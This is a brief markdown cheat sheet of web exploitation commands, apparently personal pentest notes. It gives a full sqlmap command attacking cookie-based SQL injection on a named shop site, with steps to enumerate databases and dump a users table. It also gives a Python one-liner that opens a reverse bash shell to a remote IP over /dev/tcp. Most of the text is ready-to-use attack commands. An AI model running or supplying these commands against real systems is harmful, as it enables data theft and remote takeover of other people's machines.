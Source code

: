 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file that doesn't gunzip?
Try `zless` or `zcat`.

### What is a python payload for a reverse shell?
```
import os; os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.10.10/8080 0>&1\"'
```
